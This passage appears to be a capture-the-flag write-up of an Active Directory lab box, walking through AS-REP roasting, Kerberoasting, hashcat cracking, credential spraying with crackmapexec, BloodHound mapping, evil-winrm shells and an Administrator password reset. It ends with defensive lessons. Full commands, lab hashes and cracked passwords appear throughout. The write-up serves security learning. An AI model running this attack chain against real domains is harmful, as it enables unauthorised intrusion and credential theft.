With a genuinely complete username list in hand, I ran `impacket`'s `GetNPUsers.py` against the whole thing to check every account for disabled Kerberos pre-authentication at once, rather than testing names one at a time.

```bash
┌─[abadd0n@EX3CP01S0N] - [~/thm/boxes/VulnNet Roasted] - [Thu Apr 04, 21:17]
└─[$]> python3  ~/ADTools/impacket/examples/GetNPUsers.py vulnnet-rst.local/ -usersfile users.txt -dc-ip 10.10.195.180 -request
Impacket v0.9.25.dev1+20211027.123255.1dad8f7f - Copyright 2021 SecureAuth Corporation

[-] User WIN-2BO8M1OE1M1$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User enterprise-core-vn doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User a-whitehat doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$t-skid@VULNNET-RST.LOCAL:bae86abd6c5b2cdf62ed849464759e7b$cfd11390add7fbe3168a1bdb1871417282f8844c5c80d6a2a6c1cac681d6ee252645d429ead7809fc6da5cfc045e0677623a1a7a7758610985eb4795a76c54cac93b277dd653d85626cfde6b41f96b877ba14a16a1a9e5bc823a667bdd1a8784458dc86eee7b8653812b17f44c44834137addbf16f8802b0e69c2a20d60c6a145df6307c80fb92f82a864d920581b1eda3d778e379a0550d7f4dfcddf8c0dcf69a11ff15e1e771cf8e2c07027f9358d2b11c0db9e0941565c1d5d41effb4b220c4547e8f20fbecfe440fa5f2dece8cb5f84089e003aaf5b6c66869947ceed14d3243830fdd200c5f4a25d4ac41ad810fb7825a0b5b97
[-] User j-goldenhand doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User j-leet doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] User Guest doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
```

One account, `t-skid`, came back vulnerable and handed over an AS-REP hash. I sent it at `hashcat` against rockyou, and it took only about five seconds to crack, which told me right away that this password was going to be a weak one.

```bash
┌─[abadd0n@EX3CP01S0N] - [~/thm/boxes/VulnNet Roasted] - [Thu Apr 04, 21:19]
└─[$]> hashcat -m 18200 -a 0 hash /usr/share/SecLists/Passwords/Leaked-Databases/rockyou.txt -O --force                  
hashcat (v6.2.5) starting

You have enabled --force to bypass dangerous warnings and errors!
This can hide serious problems and should only be done when debugging.
Do not report hashcat issues encountered when using --force.

OpenCL API (OpenCL 2.0 pocl 1.8  Linux, None+Asserts, RELOC, LLVM 11.1.0, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
=====================================================================================================================================
* Device #1: pthread-AMD Ryzen 3 2300X Quad-Core Processor, 6898/13860 MB (2048 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 31

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Optimized-Kernel
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 1 MB

Dictionary cache hit:
* Filename..: /usr/share/SecLists/Passwords/Leaked-Databases/rockyou.txt
* Passwords.: 14344384
* Bytes.....: 139921497
* Keyspace..: 14344384

$krb5asrep$23$t-skid@VULNNET-RST.LOCAL:bae86abd6c5b2cdf62ed849464759e7b$cfd11390add7fbe3168a1bdb1871417282f8844c5c80d6a2a6c1cac681d6ee252645d429ead7809fc6da5cfc045e0677623a1a7a7758610985eb4795a76c54cac93b277dd653d85626cfde6b41f96b877ba14a16a1a9e5bc823a667bdd1a8784458dc86eee7b8653812b17f44c44834137addbf16f8802b0e69c2a20d60c6a145df6307c80fb92f82a864d920581b1eda3d778e379a0550d7f4dfcddf8c0dcf69a11ff15e1e771cf8e2c07027f9358d2b11c0db9e0941565c1d5d41effb4b220c4547e8f20fbecfe440fa5f2dece8cb5f84089e003aaf5b6c66869947ceed14d3243830fdd200c5f4a25d4ac41ad810fb7825a0b5b97:tj072889*
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
Hash.Target......: $krb5asrep$23$t-skid@VULNNET-RST.LOCAL:bae86abd6c5b...0b5b97
Time.Started.....: Thu Apr  4 21:19:39 2024, (3 secs)
Time.Estimated...: Thu Apr  4 21:19:42 2024, (0 secs)
Kernel.Feature...: Optimized Kernel
Guess.Base.......: File (/usr/share/SecLists/Passwords/Leaked-Databases/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  1386.8 kH/s (1.86ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 3179313/14344384 (22.16%)
Rejected.........: 817/3179313 (0.03%)
Restore.Point....: 3175217/14344384 (22.14%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: tjpt17 -> tixamape
Hardware.Mon.#1..: Temp: 50c Util: 84%

Started: Thu Apr  4 21:19:38 2024
Stopped: Thu Apr  4 21:19:43 2024
```

Cracking that hash gave me `t-skid : tj072889*`, my first genuine domain credential on this box. As always, the first thing I do with a fresh credential is check where else on the network it works, so I ran it back through `crackmapexec` across the subnet.

That check confirmed the credential was valid directly against the domain controller itself, `t-skid` was a real domain account, not just a local one on some other host.

```bash
┌─[abadd0n@EX3CP01S0N] - [~/thm/boxes/VulnNet Roasted] - [Thu Apr 04, 21:21]
└─[$]> crackmapexec smb 10.10.195.0/24 -u 't-skid' -p 'tj072889*' 
SMB         10.10.195.158   445    WPRIVESC3        [*] Windows 10.0 Build 17763 x64 (name:WPRIVESC3) (domain:WPRIVESC3) (signing:False) (SMBv1:False)
SMB         10.10.195.158   445    WPRIVESC3        [-] WPRIVESC3\t-skid:tj072889* STATUS_LOGON_FAILURE 
SMB         10.10.195.180   445    WIN-2BO8M1OE1M1  [*] Windows 10.0 Build 17763 x64 (name:WIN-2BO8M1OE1M1) (domain:vulnnet-rst.local) (signing:True) (SMBv1:False)
SMB         10.10.195.180   445    WIN-2BO8M1OE1M1  [+] vulnnet-rst.local\t-skid:tj072889*
```

With a working domain credential in hand, I ran `BloodHound-python` as `t-skid` to actually see the relationships behind all these accounts rather than continuing to guess based on names alone.

```bash
bloodhound-python -d vulnnet-rst.local -u 't-skid' -p 'tj072889*' -ns 10.10.195.180 -c all
```

I loaded the resulting `.json` files into the BloodHound GUI, marked `t-skid` as an owned node, and opened `Node Info -> Inbound Control Rights -> Transitive Object Controllers` to see everything that could reach this account, and by extension, what this account itself could reach outward from there.



One edge in that graph immediately stood out: a direct link between a user called `a-whitehat` and `Administrator`. I made a mental note of that path since it looked like the eventual route to full compromise, but I did not yet have any way to authenticate as `a-whitehat`, so I right-clicked the edge to see what BloodHound's abuse guidance suggested and kept looking for a way into that account in the meantime.



Rather than attack `a-whitehat` directly with nothing to work with yet, I looked at what `t-skid` itself could reach and found an SPN-bearing account worth Kerberoasting. A targeted request against `enterprise-core-vn` returned a crackable TGS-REP hash.

```bash
┌─[abadd0n@EX3CP01S0N] - [~/ADTools/targetedKerberoast] - [Thu Apr 04, 21:47]
└─[$]> python3 targetedKerberoast.py -v -d 'vulnnet-rst.local' -u 't-skid' -p 'tj072889*'  
[*] Starting kerberoast attacks
[*] Fetching usernames from Active Directory with LDAP
[+] Printing hash for (enterprise-core-vn)
$krb5tgs$23$*enterprise-core-vn$VULNNET-RST.LOCAL$vulnnet-rst.local/enterprise-core-vn*$500dc9bee14eab4da8a4cdac35c17375$e9a6d41804842443b5c01abf60ceb8337b9a3555801631fd4b13e3ffc22c17c571220a4346e9fc52cab6cca440589115049a91bbc3a85f011f0022377d9d481feb8f8c3e5f138628dbeaa1f61763342ad0d173ec540024739b10d85d7f9f29342818c922f2ad79567d095c3de8d9a5f5fce11cdb55fe595b89c549967acbcba8b41b2fa6a27ef0a08287291b18f5ca2b1cd22c9c4e36fa926a16d14a23a48d25b8a353ab86e5c4178b68b02b593397e87a45f477ee53c8d2539b5d260107abd6c145bf13c0f3d74dbbdea04a9552b37666b380b358d4e4a7ae340c080fa00572af73290c8a4592e9de6a9bc8aab3b94f069f7ccf5393e661e2999d6ab48a0dce59e7b636d0efe5f5cb9b5a2e660d5ffc0fcf2912d23b21e8efbad3de213e6e1973bf39140963bcfd0b5414c051ae4a36b4afcc45a9d41ac573d5d264d93c5b16d7d6a84a515bde79a877a82b2a6179920171050a4ab9760fe627e1aa182de6f38aae21a09ca0355d84f6befd8a301ba51f447dc3f7693a9a86c31b39e610c6c1464716b290346b8ebe1cb8d1f203c565eefe47d55ad58b46f6a15c6bf69671c376f3a67b5f348bc868f3583c6e3ae33f051c3397e0ea41b8f07b758d15bd4fa3de0de559ff927c08126c60c5ea811303d3566f77880411e48ae6b20bc9677e63997c86c40ed02795ed360cab4f69eb6e40e55dac1853ec3129fb86ed10408ecb7067d0297fa93b09644a7d769b6e936dc46578a3c56dfabd6418197c8c66e630c60cb7faee93fe52e9ba6558d5782ecf7ec685d1430658d200182645983457d3b8fd71f1d508376025772f20ace279cfbb47bbe61616572c599483a107805176c1413ac8858a5282850736adc3b912b7540168dfa200d74c43c6671999f5894af5ef5cd658866b41f550bbcd45ab620b4b9e86bd090e52aeee880af5ba197dd9ff24ea7b3d0e00fa800e05a5f908d27881b7c785385d3eda66ee88d4f6bfe07a71a404e4abc565c78d31e8fb17ad383f1076b68ae1d2ff7d153cb1a5f861f3c939435062cc71c7bd5d20c0cb3351f7b837c4e586aba08434b0351b1e08b2c9d0ab65ce53ad6b43cf7f7ac6e56ecf0fde8933687d674d8b25839ff5f17dcc1344170b742c72673de4a3387949ea18f539095a06cf1ea5b3120b30487becc5f3069e52ffff8f30c58743c5f58f28c52b00e9636b9369ca4bb0720998de8054be88335af46abcdee15598f0bc4d8e9234451d7ab4ee8c26061de1b42a42248ddc3f05fe243c3be1a8429d32a8e0c3d3ed56862ebe62a8fbb6fb65dac5119b207b651612cb28d679a7d406996f17daed90b57701ab322977d5b7d465cfe2ccda57f8bebe7b02758a56f929509d33bf18de4829c51af02c5a80bc274ed6f6d0
```

I ran that hash through `hashcat` next, and within a few short moments it cracked, giving me a second, more privileged set of domain credentials to work with.

```bash
┌─[abadd0n@EX3CP01S0N] - [~/thm/boxes/VulnNet Roasted] - [Thu Apr 04, 22:00]
└─[$]> hashcat -m 13100 -a 0 hash2 /usr/share/SecLists/Passwords/Leaked-Databases/rockyou.txt -O --force
hashcat (v6.2.5) starting

You have enabled --force to bypass dangerous warnings and errors!
This can hide serious problems and should only be done when debugging.
Do not report hashcat issues encountered when using --force.

OpenCL API (OpenCL 2.0 pocl 1.8  Linux, None+Asserts, RELOC, LLVM 11.1.0, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
=====================================================================================================================================
* Device #1: pthread-AMD Ryzen 3 2300X Quad-Core Processor, 6898/13860 MB (2048 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 31

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Optimized-Kernel
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 1 MB

Dictionary cache hit:
* Filename..: /usr/share/SecLists/Passwords/Leaked-Databases/rockyou.txt
* Passwords.: 14344384
* Bytes.....: 139921497
* Keyspace..: 14344384

$krb5tgs$23$*enterprise-core-vn$VULNNET-RST.LOCAL$vulnnet-rst.local/enterprise-core-vn*$500dc9bee14eab4da8a4cdac35c17375$e9a6d41804842443b5c01abf60ceb8337b9a3555801631fd4b13e3ffc22c17c571220a4346e9fc52cab6cca440589115049a91bbc3a85f011f0022377d9d481feb8f8c3e5f138628dbeaa1f61763342ad0d173ec540024739b10d85d7f9f29342818c922f2ad79567d095c3de8d9a5f5fce11cdb55fe595b89c549967acbcba8b41b2fa6a27ef0a08287291b18f5ca2b1cd22c9c4e36fa926a16d14a23a48d25b8a353ab86e5c4178b68b02b593397e87a45f477ee53c8d2539b5d260107abd6c145bf13c0f3d74dbbdea04a9552b37666b380b358d4e4a7ae340c080fa00572af73290c8a4592e9de6a9bc8aab3b94f069f7ccf5393e661e2999d6ab48a0dce59e7b636d0efe5f5cb9b5a2e660d5ffc0fcf2912d23b21e8efbad3de213e6e1973bf39140963bcfd0b5414c051ae4a36b4afcc45a9d41ac573d5d264d93c5b16d7d6a84a515bde79a877a82b2a6179920171050a4ab9760fe627e1aa182de6f38aae21a09ca0355d84f6befd8a301ba51f447dc3f7693a9a86c31b39e610c6c1464716b290346b8ebe1cb8d1f203c565eefe47d55ad58b46f6a15c6bf69671c376f3a67b5f348bc868f3583c6e3ae33f051c3397e0ea41b8f07b758d15bd4fa3de0de559ff927c08126c60c5ea811303d3566f77880411e48ae6b20bc9677e63997c86c40ed02795ed360cab4f69eb6e40e55dac1853ec3129fb86ed10408ecb7067d0297fa93b09644a7d769b6e936dc46578a3c56dfabd6418197c8c66e630c60cb7faee93fe52e9ba6558d5782ecf7ec685d1430658d200182645983457d3b8fd71f1d508376025772f20ace279cfbb47bbe61616572c599483a107805176c1413ac8858a5282850736adc3b912b7540168dfa200d74c43c6671999f5894af5ef5cd658866b41f550bbcd45ab620b4b9e86bd090e52aeee880af5ba197dd9ff24ea7b3d0e00fa800e05a5f908d27881b7c785385d3eda66ee88d4f6bfe07a71a404e4abc565c78d31e8fb17ad383f1076b68ae1d2ff7d153cb1a5f861f3c939435062cc71c7bd5d20c0cb3351f7b837c4e586aba08434b0351b1e08b2c9d0ab65ce53ad6b43cf7f7ac6e56ecf0fde8933687d674d8b25839ff5f17dcc1344170b742c72673de4a3387949ea18f539095a06cf1ea5b3120b30487becc5f3069e52ffff8f30c58743c5f58f28c52b00e9636b9369ca4bb0720998de8054be88335af46abcdee15598f0bc4d8e9234451d7ab4ee8c26061de1b42a42248ddc3f05fe243c3be1a8429d32a8e0c3d3ed56862ebe62a8fbb6fb65dac5119b207b651612cb28d679a7d406996f17daed90b57701ab322977d5b7d465cfe2ccda57f8bebe7b02758a56f929509d33bf18de4829c51af02c5a80bc274ed6f6d0:ry=ibfkfv,s6h,
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 13100 (Kerberos 5, etype 23, TGS-REP)
Hash.Target......: $krb5tgs$23$*enterprise-core-vn$VULNNET-RST.LOCAL$v...d6f6d0
Time.Started.....: Thu Apr  4 22:00:41 2024, (3 secs)
Time.Estimated...: Thu Apr  4 22:00:44 2024, (0 secs)
Kernel.Feature...: Optimized Kernel
Guess.Base.......: File (/usr/share/SecLists/Passwords/Leaked-Databases/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  1565.5 kH/s (1.65ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 4109220/14344384 (28.65%)
Rejected.........: 932/4109220 (0.02%)
Restore.Point....: 4105124/14344384 (28.62%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: ryanisthesex -> rx123~!@#$%
Hardware.Mon.#1..: Temp: 45c Util: 42%

Started: Thu Apr  4 22:00:23 2024
Stopped: Thu Apr  4 22:00:44 2024
```

That gave me `enterprise-core-vn : ry=ibfkfv,s6h,`, another account entirely separate from `t-skid`. Since a more privileged account often exposes edges in the graph that were invisible before, I re-ran `BloodHound-python` under this new identity to see what had opened up.

```bash
┌─[abadd0n@EX3CP01S0N] - [~/thm/boxes/VulnNet Roasted/bloodhound2] - [Thu Apr 04, 22:04]
└─[$]> bloodhound-python -d vulnnet-rst.local -u 'enterprise-core-vn' -p 'ry=ibfkfv,s6h,' -ns 10.10.195.180 -c all
INFO: Found AD domain: vulnnet-rst.local
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: [Errno Connection error (win-2bo8m1oe1m1.vulnnet-rst.local:88)] [Errno -2] Name or service not known
INFO: Connecting to LDAP server: win-2bo8m1oe1m1.vulnnet-rst.local
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: win-2bo8m1oe1m1.vulnnet-rst.local
INFO: Found 9 users
INFO: Found 52 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: WIN-2BO8M1OE1M1.vulnnet-rst.local
INFO: Done in 00M 41S
```

Before going further with BloodHound's output, I checked whether `enterprise-core-vn` actually had a usable remote logon, and `evil-winrm` accepted the credentials directly, giving me an interactive shell instead of just a set of hashes and graph data to reason about.

```bash
┌─[abadd0n@EX3CP01S0N] - [~/ADTools/targetedKerberoast] - [Thu Apr 04, 22:25]
└─[$]> evil-winrm --user enterprise-core-vn -p 'ry=ibfkfv,s6h,' -i vulnnet-rst.local           
                                        
Evil-WinRM shell v3.5
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\enterprise-core-vn\Documents> 
```

With a shell running as this account, I went back over the share list one more time with `crackmapexec`, and `enterprise-core-vn` turned out to reach several shares that had been completely invisible to my earlier, less privileged identities.

```bash
┌─[abadd0n@EX3CP01S0N] - [~/ADTools/impacket-alternative/impacket] - [Thu Apr 04, 23:03]
└─[$]> crackmapexec smb 10.10.60.41 -u 'enterprise-core-vn' -p 'ry=ibfkfv,s6h,' --shares
SMB         10.10.60.41     445    WIN-2BO8M1OE1M1  [*] Windows 10.0 Build 17763 x64 (name:WIN-2BO8M1OE1M1) (domain:vulnnet-rst.local) (signing:True) (SMBv1:False)
SMB         10.10.60.41     445    WIN-2BO8M1OE1M1  [+] vulnnet-rst.local\enterprise-core-vn:ry=ibfkfv,s6h, 
SMB         10.10.60.41     445    WIN-2BO8M1OE1M1  [*] Enumerated shares
SMB         10.10.60.41     445    WIN-2BO8M1OE1M1  Share           Permissions     Remark
SMB         10.10.60.41     445    WIN-2BO8M1OE1M1  -----           -----------     ------
SMB         10.10.60.41     445    WIN-2BO8M1OE1M1  ADMIN$                          Remote Admin
SMB         10.10.60.41     445    WIN-2BO8M1OE1M1  C$                              Default share
SMB         10.10.60.41     445    WIN-2BO8M1OE1M1  IPC$            READ            Remote IPC
SMB         10.10.60.41     445    WIN-2BO8M1OE1M1  NETLOGON        READ            Logon server share 
SMB         10.10.60.41     445    WIN-2BO8M1OE1M1  SYSVOL          READ            Logon server share 
SMB         10.10.60.41     445    WIN-2BO8M1OE1M1  VulnNet-Business-Anonymous READ            VulnNet Business Sharing
SMB         10.10.60.41     445    WIN-2BO8M1OE1M1  VulnNet-Enterprise-Anonymous READ            VulnNet Enterprise Sharing
```

```bash
┌─[abadd0n@EX3CP01S0N] - [~/ADTools/impacket-alternative/impacket] - [Thu Apr 04, 23:04]
└─[$]> smbclient  //$host/SYSVOL -U 'enterprise-core-vn'  
Password for [WORKGROUP\enterprise-core-vn]:
Try "help" to get a list of possible commands.
smb: \> 
```


`SYSVOL`/`NETLOGON`-style logon-script shares are always worth a look on a domain that has been running a while, since older scripts frequently hardcode credentials that predate anyone's current security awareness. Reading through `ResetPassword.vbs` on this share turned up exactly that: a plaintext password for a user called `a-whitepad`, `bNdKVkjv3RR9ht`. I validated it immediately with `crackmapexec` before trusting it any further.

```bash
┌─[abadd0n@EX3CP01S0N] - [~] - [Thu Apr 04, 23:08]
└─[$]> crackmapexec smb 10.10.60.41 -u 'a-whitehat' -p 'bNdKVkjv3RR9ht' --shares
SMB         10.10.60.41     445    WIN-2BO8M1OE1M1  [*] Windows 10.0 Build 17763 x64 (name:WIN-2BO8M1OE1M1) (domain:vulnnet-rst.local) (signing:True) (SMBv1:False)
SMB         10.10.60.41     445    WIN-2BO8M1OE1M1  [+] vulnnet-rst.local\a-whitehat:bNdKVkjv3RR9ht (Pwn3d!)
SMB         10.10.60.41     445    WIN-2BO8M1OE1M1  [*] Enumerated shares
SMB         10.10.60.41     445    WIN-2BO8M1OE1M1  Share           Permissions     Remark
SMB         10.10.60.41     445    WIN-2BO8M1OE1M1  -----           -----------     ------
SMB         10.10.60.41     445    WIN-2BO8M1OE1M1  ADMIN$          READ,WRITE      Remote Admin
SMB         10.10.60.41     445    WIN-2BO8M1OE1M1  C$              READ,WRITE      Default share
SMB         10.10.60.41     445    WIN-2BO8M1OE1M1  IPC$            READ            Remote IPC
SMB         10.10.60.41     445    WIN-2BO8M1OE1M1  NETLOGON        READ,WRITE      Logon server share 
SMB         10.10.60.41     445    WIN-2BO8M1OE1M1  SYSVOL          READ            Logon server share 
SMB         10.10.60.41     445    WIN-2BO8M1OE1M1  VulnNet-Business-Anonymous READ            VulnNet Business Sharing
SMB         10.10.60.41     445    WIN-2BO8M1OE1M1  VulnNet-Enterprise-Anonymous READ            VulnNet Enterprise Sharing
```

With that credential confirmed valid, `evil-winrm` gave me an interactive shell as `a-whitepad` as well.

```bash
┌─[abadd0n@EX3CP01S0N] - [~/ADTools/impacket-alternative/impacket] - [Thu Apr 04, 23:08]
└─[$]> evil-winrm --user a-whitehat -p 'bNdKVkjv3RR9ht' -i vulnnet-rst.local
                                        
Evil-WinRM shell v3.5
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\a-whitehat\Documents> 
```

Same habit as every previous credential on this box: a new account almost always widens what BloodHound can see, so I collected fresh data as `a-whitepad` before doing anything else with it.

```bash
┌─[abadd0n@EX3CP01S0N] - [~/thm/boxes/VulnNet Roasted/bloodhound3] - [Thu Apr 04, 23:14]
└─[$]> bloodhound-python -d vulnnet-rst.local -u 'a-whitehat' -p 'bNdKVkjv3RR9ht' -ns 10.10.60.41 -c all 
INFO: Found AD domain: vulnnet-rst.local
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: [Errno Connection error (win-2bo8m1oe1m1.vulnnet-rst.local:88)] [Errno -2] Name or service not known
INFO: Connecting to LDAP server: win-2bo8m1oe1m1.vulnnet-rst.local
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: win-2bo8m1oe1m1.vulnnet-rst.local
INFO: Found 9 users
INFO: Found 52 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 22 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: WIN-2BO8M1OE1M1.vulnnet-rst.local
INFO: User enterprise-core-vn is logged in on WIN-2BO8M1OE1M1.vulnnet-rst.local from 10.6.59.97
WARNING: Could not resolve hostname to SID: lu18.local
INFO: Done in 01M 00S
```

I walked the same `Node Info -> Inbound Control Rights -> Transitive Object Controllers` view I had used earlier, curious whether this new data pointed anywhere I had not already noticed.

It confirmed what I had actually already spotted several steps back: `a-whitehat` holds `ForceChangePassword` directly over `Administrator`. That edge had been sitting there since my very first BloodHound pass with `t-skid`, I just had not yet had a working credential for `a-whitehat` to actually use it. Now that everything lined up, resetting Administrator's password outright was the obvious move.



```bash
┌─[abadd0n@EX3CP01S0N] - [~/thm/boxes/VulnNet Roasted/bloodhound3] - [Thu Apr 04, 23:18]
└─[$]> net rpc password "administrator" "newP@P@ssw0rd123!@$" -U "vulnnet-rst.local"/"a-whitehat"%"bNdKVkjv3RR9ht" -S "10.10.60.41"
```

The reset went through cleanly, and with Administrator's password now something I had chosen myself, `evil-winrm` gave me a full Administrator shell on the domain controller, the end of the chain that had started with two anonymous SMB shares and a handful of leaked usernames.

```bash
┌─[abadd0n@EX3CP01S0N] - [~/thm/boxes/VulnNet Roasted/bloodhound3] - [Thu Apr 04, 23:21]
└─[$]> evil-winrm --user administrator -p 'newP@P@ssw0rd123!@$' -i vulnnet-rst.local
                                        
Evil-WinRM shell v3.5
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\TEMP\Documents> 
```

From Administrator, both flags were sitting where I expected them, and with Domain Admin rights confirmed, `secretsdump`'s DCSync option was a straightforward way to pull every credential in the domain for good measure, though at that point the box was already fully compromised.

Looking back at the whole run, what makes this box work is that no single step was hard on its own, two anonymous shares leaking usernames, a routine AS-REP roast, a routine Kerberoast, a hardcoded password in an old logon script, and an ACL edge BloodHound had actually shown me from the very first pass. The only real skill being tested here is the discipline to keep re-running BloodHound after every new credential and to actually read every file an anonymous share hands you, since this domain telegraphed its own compromise at almost every step for anyone patient enough to look.

---

## Lessons and Takeaways

- **Audit exactly what anonymous SMB sessions can read.** Two shares here leaked employee names and internal notes that fed every subsequent step, and none of it required a single credential.
- **Disable Kerberos pre-authentication only where it is genuinely required, and enforce strong passwords wherever it stays disabled.** Both the AS-REP roast and the Kerberoast on this box cracked in seconds against rockyou.
- **Retire old logon scripts, and never hardcode credentials inside them.** `ResetPassword.vbs` handed over a working password to any user who could read the `NETLOGON`/`SYSVOL` share, which on most domains is every authenticated user.
- **Review `ForceChangePassword` and similar ACL grants regularly, especially any that terminate on Administrator or Domain Admins.** BloodHound found this exact path on the very first collection run; nothing about it required deep access to discover.
- **Treat a captured NTLMv2 hash and a hardcoded script password as equally dangerous.** Neither needs a working exploit, both just need someone to read what is already sitting in front of them.
